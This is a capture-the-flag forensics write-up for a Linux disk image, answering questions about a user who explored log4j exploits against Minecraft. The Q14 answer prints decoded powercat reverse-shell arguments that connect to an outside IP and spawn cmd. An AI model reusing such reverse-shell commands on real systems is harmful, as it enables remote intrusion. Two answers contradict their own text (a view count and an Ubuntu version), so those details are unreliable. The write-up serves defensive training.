

# [CyberDefenders - MrGamer](https://cyberdefenders.org/blueteam-ctf-challenges/mrgamer/)
Created: 30/06/2024 12:43
Last Updated: 08/09/2024 00:47
* * *
>Category: Endpoint Forensics
>Tags: Disk Forensic, FTK Imager, SQLite Browser, CyberChef, T1059
* * *
**Scenario**:
This #Linux image belongs to a user who likes to play games and communicate with friends. Is there something happening under the hood? Test drive your #LinuxForensics skills and identify anomalies!

As a soc analyst, analyze the artifacts and answer the questions.

**Tools**:
1. [CyberChef](https://gchq.github.io/CyberChef/)
2. [DCode](https://www.digital-detective.net/dcode/)
3. [DB Browser for SQLite](https://sqlitebrowser.org/)
4. [Unfurl](https://github.com/obsidianforensics/unfurl)

**Resources**:
1. [Linux Artifacts - Targeted Locations Quick Reference Guide](https://www.magnetforensics.com/resources/targeted-locations-quick-reference-guide-for-linux-artifacts/)
* * *
## Questions
> Q1: I use print statements for my logging -> What is the name of the utility/library the user was looking at exploits for?


First, lets take a look at `/home/rafael/.bash_history` which we can see that rafael user tried to exploit log4j vulnerability


We can also see minecraft directory here along with repository that was cloned so we could guess that minecraft is the target for this exploitation (Minecraft was pretty popular targeted when this vulnerability was announced since its using Java)


I also went to export firefox history file (`places.sqlite`) to get better context of this user 


After open sqlite file with DB Browser for SQLite, we can confirm that Minecraft is the target of this vulnerability  

```
log4j
```

> Q2: Mischievous Lemur -> What is the version ID number of the operating system on the machine?


Linux stores os information in many files including `/etc/issue` so we just need to get one of them to answer this

```
21.10
```

> Q3: $whoami -> What is the hostname of the computer?


Linux stores hostname in `/etc/hostname` 

```
rshell-lenovo
```

> Q4: A little blue birdie told me -> What is one anime that the user likes?

When talking about blue bird, there are 2 things that came to my mind directly but I could not find twitter url related to any anime inside firefox history file so we have to use another bird which is thunderbird to find an answer for us  


We can see that thunderbird stores inbox and other information inside `/home/rafael/.thunderbird/vrvcx2qf.default-release/ImapMail/imap.gmail.com` directly and then when we search for anime, it returns with twitter url and it mentioned Attack on Titan which is the answer of this question

```
Attack on Titan
```

> Q5: Into the Matrix, we go -> What is the UUID for the attacker's Minecraft account?


We can obtain this answer by reading the content of `/home/rafael/.minecraft/usercache.json`

```
8b0dec19-b463-477e-9548-eef20c861492
```

> Q6: Today's Youtube video is sponsored by... -> What VPN client did the user install and use on the machine?


Back to firefox history file, we can see that user was searching for easy serverless vpn which lead to "Tailscale" and then "ZeroTier" which was confirmed that user accessed ZeroTier download link so we have to confirm whetever this VPN was successfully installed or not


Which lead me to `/var/log/apt/history.log`, you can see that user used `apt-get install -y zerotier-one` to install this vpn

```
zerotier
```

> Q7: Be our guest -> What was the user's first password for the guest wifi?


We will not find an answer from `/etc/Network` directory but from thunderbird inbox file and we will need to dig a little bit deeper too, since there are many guest wifi password sent on the inbox

```
093483
```

> Q8: If a picture is worth a thousand words, how many is a video worth? -> The user watched a video that premiered on Dec 11th, 2021. How many views did it have when they watched it on February 9th?


I tried to search for any youtube url inside firefox history, and the one that caught my eyes is this one and if i remembered correctly, it has to be the one from John Hammond


Which it is! now we have to find viewcount on Feb 9th but I couldn't find any Febuary 9th snapshot on wayback machine


But this question also telling us that it is a picture so I checked `/home/rafael/Pictures` and we can see there are 3 screenshots were taken on Feb 9th


But the answer is 265345 which is the viewcount of the first image that was taken on that day

```
265342
```

> Q9: I'm hungry for videos -> What is the new channel name for the YouTuber whose cookbook is shown on the device?


There is a directory where user stored some of pocs and scripts he used

And we can find several images with this cookbook within `/home/rafael/marshalsec/poc/` directory


Searching for this cookbook then we will find a youtuber who wrote this cookbook

```
Babish Culinary Universe
```

> Q10: Hunt the Wumpus -> What is the module with the highest installed version for the chat application with the mascot Wumpus?


We can find `module.log` inside `/home/rafael/.config/.discord/` directory and manually find for the highest version but this is not the good way to find an answer


We have to dig deeper into `/home/rafael/.config/.discord/0.0.16/modules/` directory where `installed.json` is located which already sum ups all modules that were installed with versions

```
discord_voice
```

> Q11: It's raining ocelots and wolves -> According to Windows, what was the temperature in Fahrenheit on February 11th, 2022, at 6:30 PM?


We got disk images of Ubuntu 20.04 so we will not find anything related to Windows except for these screenshot image stored in poc directory, find the one that was taken on Feb 11th which will lead us to this image 

```
45F
```

> Q12: Never gonna give... up on this question -> What is the upload date of the second youtube video on the channel from which the user downloaded a youtube video?


So are we willing to be rickrolled? from firefox history, we can see that user searched for youtube to wav and eventually accessed to `.wav` version of NEVER GONNA GIVE YOU UP~~~


Which is located in rafael's Desktop~~


Lets go to Rick Ashley's youtube channel and find his second video, (BTW RICKROLL IS HAFTWAY 2B VIEWS W T F)


```
10/25/2009
```

> Q13: Buzzy Bees -> What is the SHA-1 hash of Minecraft's "latest" release according to the system?


We can obtain the answer from `/home/rafael/.minecraft/version/version_manifest_v2.json` which we can see that it contains information about snapshot of the latest Minecraft version


Including SHA1

```
3c6e119c0ff307accf31b596f9cd47ffa2ec6305
```

> Q14: The RCE is base(64)d on what? -> What were the three flags and their values that were passed to powercat? The answer must be provided in the same format as the entered command. (For example, if the command was "powercat -D Y -l a -n," the answer would be "-D Y -l a -n")


We can see from `.bash_history` that user used `wget` to get this powershell script but we will not find anything remotely closed an execution of thsi file here since its a powershell script that happened to be on Linux system


But if we goes back to poc directory, we can see `Log4jRCE.java` that actually executed powershell script when log4j was exploited 


Decode base64 string that we will have all the arguments that will be passed to powercat

```
-c 192.168.191.253 -p 4444 -e cmd
```

> Q15: Hello (New) World -> How many dimensions (including the overworld) did the player travel to in the "oldest of the worlds"?

We will need a little bit of research about how Minecraft keep track and store advancement of each user which will lead us to this [fandom wiki](https://minecraft.fandom.com/wiki/Advancement/JSON_format)


To end this game, user has to go to "Nether" and "The End" and kill the ender dragon, so an advancement that close to these activities would be this


And this


So we will go to `/home/rafael/.minecraft/saves/New World/advancement` and find anything related to advancement we found earlier, we can see there is no "end" here or "changed_dimension" mean there is no returning from the end to overworld


There is no "nether" either


So we only have "Overworld" left which is the world for all players begin their journey

```
one
```

> Q16: Matrix_1999 is the key! -> What is the mojangClientToken stored in the Keystore?


First, we need to export both `login.keyring` and `user.keystore` from `/home/rafael/.local/share/keyrings`


Move it to another VM that made purposely for investigate and 
- rename both file properly and add them to `/home/user/.local/share/keyrings`
- next we will change permission of both files to `600` (Read and write for user only) 
- then run `seahorse` to determine if "Password and Keys" is installed 
- Reboot to let these keys loaded 


When we ran `seahorse` again, we should be able to see new "Login" keyring that is locked by rafael's password


The question already gave us rafael's password, so click Unlock then we will be able to see all items saved in this keyring


Which including the mojangClientToken that we are looking for

```
2f76c8b04c004ddd888a05a6cad6be52
```


* * *
